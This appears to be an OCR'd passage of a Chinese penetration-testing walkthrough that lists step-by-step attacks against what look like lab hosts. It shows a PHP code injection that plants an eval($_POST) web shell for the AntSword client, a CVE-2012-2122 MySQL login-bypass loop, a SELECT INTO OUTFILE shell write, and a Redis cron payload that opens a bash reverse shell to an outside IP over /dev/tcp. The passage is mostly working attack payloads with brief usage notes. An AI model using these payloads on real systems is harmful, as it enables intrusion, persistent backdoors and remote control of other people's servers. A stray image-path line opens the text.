```
";phpinfo();
```

访问 http://10.3.4.104/data/admin/ip.php 页面查看出现 `phpinfo()` 即为注入成功

最后将以上POC修改为

```
";eval($_POST["a"]);
```

即可写入一句话木马

然后使用蚁剑链接

连接地址如下

```
http://10.3.4.104/data/admin/ip.php
```


最后IP文件内容如下

```
<?php $v = "0"; $ip = " ";eval($_POST["a"]);//";  ?>
```

# mysql 渗透

## CVE-2012-2122

使用 bashexp 脚本

```bash
for i in `seq 1 1000`; do mysql -uroot -pwrong -h 10.3.4.77 -p3306 ; done
```

查看MySQL的user表，获取密码MD5，到MD5解密站解密密码为123456

通过下面这行代码写shell

```sql
select "<?php phpinfo();?>" into outfile "/var/www/html/1.php"
```

# redis 反弹 shell

```bash
set x "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.11.109/1234 0>&1\n"
```
